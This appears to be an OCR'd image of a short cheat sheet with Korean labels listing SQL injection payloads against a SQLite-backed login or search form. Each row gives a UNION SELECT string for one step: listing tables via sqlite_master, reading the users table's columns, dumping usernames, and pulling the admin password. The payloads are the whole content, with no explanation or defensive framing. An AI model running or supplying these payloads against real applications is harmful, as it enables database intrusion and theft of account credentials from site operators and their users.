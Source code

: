 테이블 목록	' UNION SELECT name FROM sqlite_master WHERE type='table'--
users 컬럼명	' UNION SELECT name FROM pragma_table_info('users')--
모든 계정:비번	' UNION SELECT username FROM users--
admin 계정만	' UNION SELECT password FROM users WHERE username='admin'--
